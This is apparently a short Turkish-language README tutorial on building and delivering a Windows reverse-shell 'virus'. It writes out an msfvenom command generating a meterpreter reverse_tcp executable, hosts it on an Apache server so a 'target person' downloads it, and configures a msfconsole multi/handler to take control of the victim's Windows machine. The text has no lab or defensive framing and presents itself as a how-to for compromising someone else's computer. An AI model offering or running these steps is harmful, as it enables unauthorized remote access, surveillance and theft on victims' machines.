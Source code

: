 ## Selam Ben Linax Ve Bugun Sizlere Nasil Virus(payload) Olusturulucagini Anlaticam.
## Oncelikle Terminali Aciyoruz Ve msfvenom Ile Komutumuzu Yaziyoruz.
## msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local Ipniz> LPORT=4444 -f exe > /var/www/html/virus.exe 
  
![Screenshot_2022-07-17_06_44_33](https://user-images.githubusercontent.com/100614268/179394888-468d8bdc-a63e-4727-9d5c-c055d0379a82.png)

## Burada Bilgisayara meterpreter Icin Bir reverse_tcp Olusturmasini Istiyoruz Ve Onu /var/www/html/virus.exe Icerisine Yolluyoruz.
## Daha Sonra Bunu Bir Servicede Aktif Etmemiz Gerek. Aktif Etmeden De Yapilir Ama Hedef Kisiye Daha Rahat Ulasabilmesi Icin Servicelerimizi Acicaz. Bunun Icin Terminale Sirasiyla Yaziyoruz.

## sudo service apache2 start
## sudo service apache2 status
  
![Screenshot_2022-07-17_06_45_23](https://user-images.githubusercontent.com/100614268/179394987-3e5f2793-89de-411e-b523-4f39b78a551e.png)

## Evet Bunun Anlami Artik Bizim Local IP mizi Bir Cihaz Web Tarayicisina Girerse Direk virus.exe yi Download Isticek. Bu Sayede Sadece Hedef Bilgisayara Kendi Local Ipnizi Girerek Bilgisayara payloadi Yerlestire Bilirsiniz. Peki Dosyayi Windowsa Atip Bir Yolla Calistirdiniz Diyelim. Devaminda Ne Yapmamiz Gerek?

## Terminale msfconsole Yaziyoruz. Daha Sonra use multi/handler Yaziyoruz. Sonra show options Yaziyoruz Ve LHOSTU  set lhost 192.168.x.x  Seklinde Yazip local Ipnizi Dinleme Araci Yapiyorsunuz. Ve Artik Hazirsiniz. 
![Screenshot_2022-07-17_06_47_02](https://user-images.githubusercontent.com/100614268/179395205-91bc1d94-6ca9-4c6f-9bb7-e502ade40310.png)

## exploit yada run Komutlarini Girdikten Sonra Windowsa Erisirsiniz. help Yazarak Devam Ede Bilirsiniz.
